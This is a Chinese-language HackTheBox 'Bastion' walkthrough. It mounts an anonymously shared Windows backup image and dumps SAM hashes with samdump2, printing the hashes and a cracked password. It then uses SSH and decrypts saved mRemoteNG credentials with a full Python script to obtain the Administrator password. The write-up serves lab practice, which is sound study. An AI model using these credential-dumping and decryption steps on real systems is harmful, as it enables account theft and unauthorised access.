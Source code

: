 ```yaml
---
layout: post
title:  "HackTheBox >_ Bastion_134"
description: walkthrough
category: HackTheBox
---
```

# Bastion_134

![image-20200917085913924]({{ site.url }}/assets/Bastion_134.assets/image-20200917085913924.png)

![image-20200709053627288]({{ site.url }}/assets/Bastion_134.assets/image-20200709053627288.png)

![image-20200709053706409]({{ site.url }}/assets/Bastion_134.assets/image-20200709053706409.png)

![image-20200709054532295]({{ site.url }}/assets/Bastion_134.assets/image-20200709054532295.png)

![image-20200709054745325]({{ site.url }}/assets/Bastion_134.assets/image-20200709054745325.png)

![image-20200709050537432]({{ site.url }}/assets/Bastion_134.assets/image-20200709050537432.png)

![image-20200709054345021]({{ site.url }}/assets/Bastion_134.assets/image-20200709054345021.png)

![image-20200709054953264]({{ site.url }}/assets/Bastion_134.assets/image-20200709054953264.png)

而windows备份中

![image-20200709083245936]({{ site.url }}/assets/Bastion_134.assets/image-20200709083245936.png)

将vhd挂载到本地

可以参考[https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25进行简单的挂载，](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25进行简单的挂载，)

也可以通过下面的命令进行挂载

```bash
sudo mkdir /mnt/L4mpje-PC
sudo mkdir /mnt/vhd
sudo modprobe nbd
sudo mount -t cifs //10.10.10.134/Backups/WindowsImageBackup/L4mpje-PC  /mnt/L4mpje-PC/ -o user=anonymous
sudo qemu-nbd -r -c /dev/nbd0 "/mnt/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd"
sudo mount -r /dev/nbd0p1 /mnt/vhd
```

挂载之后在`Windows/System32/config`使用samdump来转储hash

```bash
samdump2 SYSTEM SAM
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

![image-20200709084844645]({{ site.url }}/assets/Bastion_134.assets/image-20200709084844645.png)

```bash
L4mpje:26112010952d963c8dc4217daec986d9:bureaulampje
```

```bash
ssh L4mpje@10.10.10.134
```

![image-20200709073651853]({{ site.url }}/assets/Bastion_134.assets/image-20200709073651853.png)

![image-20200709074611738]({{ site.url }}/assets/Bastion_134.assets/image-20200709074611738.png)

参考[http://cosine-security.blogspot.com/2011/06/stealing-password-from-mremote.html](http://cosine-security.blogspot.com/2011/06/stealing-password-from-mremote.html)

如果您不知道mRemote是Windows的选项卡式远程连接管理器。它可以存储和管理许多不同的连接，其中主要是RDP，VNC和SSH。它是必须远程访问许多计算机的IT支持人员中的一种流行工具。

在mRemote中保存连接时，它将所有这些数据输出到本地AppData文件夹中的XML报告中。密码以加密格式保存，但这是微不足道的。使用AES-128-CBC Rijndael加密对密码进行加密，然后将IV预先添加到已编码的密码中，然后对所有内容进行base64编码以输出到XML。使用的加密密钥是字符串“ mR3m”的md5哈希。因此，要解密这些密码，我们遵循一个简单的过程：

示例密码：28kQ15DF4kdW34Mx2 + fh + NWZODNSoSPek7ug + ILvyPE =

 获取mR3m的md5哈希并将其转换为字节值： xc8  xa3  x9d  xe2  xa5  x47  x66  xa0  xda  x87  x5f  x79  xaa  xf1  xaa  x8c ​ base64解码保存的密码数据 ​ 取解码数据的前16个字节，并将其设置为初始化矢量（IV） ​ 运行AES-128-CBC解密，将您的密码文本（解码文本中的剩余字节），IV（前16个字节）和密钥（ xc8  xa3  x9d  xe2  xa5  x47  x66  xa0  xda  x87  x5f  x79  xaa  xf1  xaa  x8c） ​ 您应该获得解密的密码：password1

简单易用，您现在即可解密所有这些美味的RDP，VNC和SSH密码。为了使一切变得更加容易，我编写了一个新的Metasploit POST模块，它将在受感染机器上找到XML文件并为您解密这些密码。我刚刚将其提交给Redmine，因此尚未添加，但请注意。我怀疑它将很快在那里。

同时网上存在已经很棒的基于msf模块所写成的离线解密脚本

```python
#!/usr/bin/env python3

import base64
import hashlib
import re
import sys
from Cryptodome.Cipher import AES

if len(sys.argv) != 2:
     print(f"[-] Usage: {sys.argv[0]} [confCons.xml]")
     sys.exit()

try:
     with open(sys.argv[1], 'r') as f:
         conf = f.read()
except FileNotFoundError:
     print(f"[-] Unable to open {sys.argv[1]}")
     sys.exit()

mode = re.findall('BlockCipherMode="(\w+)"', conf)
if len(mode) !=1:
     print("[-] Warning - No BlockCipherMode detected")
elif mode[0] != 'GCM':
     print(f"[-] Warning - This script is for AES GCM Mode. {mode} detected")

nodes = re.findall('<Node .+/>', conf)
if len(nodes) > 0:
    print(f"[+] Found nodes: {len(nodes)}\n")
else:
    print("[-] Found no nodes")
for node in nodes:
    user = re.findall(' Username="(\w*)"', node)[0]
    enc = base64.b64decode(re.findall(' Password="([^ ]+)"', node)[0])
    salt = enc[:16]
    nonce = enc[16:32]
    cipher = enc[32:-16]
    tag = enc[-16:]
    key = hashlib.pbkdf2_hmac("sha1", b"mR3m", salt, 1000, dklen=32)
    aes = AES.new(key, AES.MODE_GCM, nonce=nonce)
    aes.update(salt)
    password = aes.decrypt_and_verify(cipher, tag).decode()
    print(f"Username: {user}\nPassword: {password}\n")
```

按照漏洞利用方法，找到存有凭证的xml文件

![image-20200709080038464]({{ site.url }}/assets/Bastion_134.assets/image-20200709080038464.png)

由于我们有ssh的凭证可以使用scp将文件传输回kali

```bash
scp l4mpje@10.10.10.134:./AppData/Roaming/mRemoteNG/confCons.xml .
```

![image-20200709080350756]({{ site.url }}/assets/Bastion_134.assets/image-20200709080350756.png)

```bash
python3 mRemoteO_PwdsDecrypt.py confCons.xml
```

![image-20200709082000728]({{ site.url }}/assets/Bastion_134.assets/image-20200709082000728.png)

```bash
Administrator:thXLHM96BeKL0ER2
```

ssh登录

![image-20200709082401555]({{ site.url }}/assets/Bastion_134.assets/image-20200709082401555.png)

![image-20200709082424192]({{ site.url }}/assets/Bastion_134.assets/image-20200709082424192.png)

